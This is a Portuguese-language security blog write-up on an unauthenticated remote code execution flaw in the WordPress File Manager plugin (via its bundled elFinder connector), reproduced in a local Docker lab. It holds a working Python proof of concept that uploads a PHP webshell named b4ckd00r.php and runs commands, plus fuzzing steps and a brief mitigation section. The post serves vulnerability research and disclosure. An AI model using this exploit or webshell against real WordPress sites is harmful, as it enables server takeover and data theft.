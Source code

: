 ```yaml
---
layout: post-pt
title: Unauth RCE no Wordpress File Manager
permalink: /pt/web/urce-wp-file-manager
---
```


**Atenção**: A técnica demonstrada neste artigo tem o propósito de ser um material educativo, a exploração foi feita em um ambiente controlado. Não realize esta exploração sem a autorização do dono do servidor, pois isto poderá resultar em um crime!

![](/imgs/urce-wp-file-manager/plugin_store.png)

Bom, pra quem ainda não conhece o [Wordpress File Manager](https://br.wordpress.org/plugins/wp-file-manager/) é um plugin do Wordpress que simula a interface de um gerenciador de arquivos, é bem prático.

Usei o docker compose para configurar um ambiente controlado de testes, seguindo o [tutorial oficial](https://docs.docker.com/compose/wordpress/).

![](/imgs/urce-wp-file-manager/docker_compose_config.png)

Também instalei o plugin através da loja do próprio Wordpress.

![](/imgs/urce-wp-file-manager/plugin_wp_file_manager.png)

Vale observar que este plugin tem mais de **700 mil instalações ativas**.

![](/imgs/urce-wp-file-manager/plugin_wp_file_manager_ok.png)

Com o ambiente pronto para os testes, tentei encontrar algum vazamento de informação sensível que talvez fosse causada devido a configuração do container ou do plugin.

Fiz uma wordlist com os arquivos do meu interesse, que poderiam ser acessíveis através do servidor Apache.

![](/imgs/urce-wp-file-manager/leak_check.png)

![](/imgs/urce-wp-file-manager/leak_file_content.png)

Com a wordlist pronta, usei o fuzzer do zaproxy para enviar vários "GET" nos arquivos estando desautenticado.

![](/imgs/urce-wp-file-manager/fuzz_example.png)

Normalmente para aumentar a velocidade do fuzzing, eu reduzo o delay e aumento a quantidade threads.

![](/imgs/urce-wp-file-manager/fuzz_tunning.png)

![](/imgs/urce-wp-file-manager/fuzz_result.png)

Foi relativamente rápido, e obtive 979 resultados para analisar.

Então tive a ideia de filtrar os resultados, analisar possíveis vazamentos em conjuntos menores é mais fácil.

![](/imgs/urce-wp-file-manager/cmd_responses.png)

Sei que pesquisar "cmd" é algo muito genérico, mas consegui um subconjunto bem reduzido para analisar manualmente, apenas 63 respostas.

![](/imgs/urce-wp-file-manager/possible_rce.png)

Quando vi a mensagem de erro na resposta até achei que tinha encontrado uma backdoor :expressionless:, então resolvi pesquisar mais sobre o que esse arquivo faz.

![](/imgs/urce-wp-file-manager/google_elfinder.png)

De cara percebi que não tem um bom histórico.

![](/imgs/urce-wp-file-manager/previus_vulnerability.png)

![](/imgs/urce-wp-file-manager/exploit_poc_previus.png)

![](/imgs/urce-wp-file-manager/elFinder.png)

Já foi [reportado](https://www.secsignal.org/news/cve-2019-9194-triggering-and-exploiting-a-1-day-vulnerability/) uma vulnerabilidade que resulta em RCE no [elFinder](https://github.com/Studio-42/elFinder), então foquei em validar se essa RCE ainda acontece.

{% highlight python %}
#!/usr/bin/env python3

import requests

print('[+] tentando fazer upload da webshell')

base_uri = "http://localhost:8000"
webshell_name = "b4ckd00r.php"

requests.post(
    url=f"{base_uri}/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php",

    files = {
    	'upload[]': (webshell_name, '<?php system($_GET["cmd"]) ?>')
    },

    data = {
    	"cmd" : "upload",
    	"target" : "l1_Lw"
    }
)

print(f'[+] teste sua backdoor: {base_uri}/wp-content/plugins/wp-file-manager/lib/files/{webshell_name}')

{% endhighlight %}

E tive uma surpresa, é permitido o upload de arquivos arbitrários no servidor.

![](/imgs/urce-wp-file-manager/file_upload_clear.png)

![](/imgs/urce-wp-file-manager/backdoor_upload_exec.png)

![](/imgs/urce-wp-file-manager/file_upload_not_clear.png)

Confirmando que consigo realizar o upload de uma webshell, testei se realmente ocorre a interpretação do arquivo PHP ou se há alguma proteção para ser bypassada.

![](/imgs/urce-wp-file-manager/RCE.png)

A webshell "b4ckd00r.php" foi interpretada com sucesso pelo servidor e *voilà*!, **Unauth RCE** :smirk:.

## Mitigação

Uma possível forma de reduzir o impacto dessa vulnerabilidade enquanto não há um patch disponibilizado pelo fornecedor seria mantendo o PHP atualizado e desabilitar as funções críticas, por exemplo: system, exec, shell_exec.

Recomendo seguir a [PHP Configuration Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/PHP_Configuration_Cheat_Sheet.html) da OWASP.
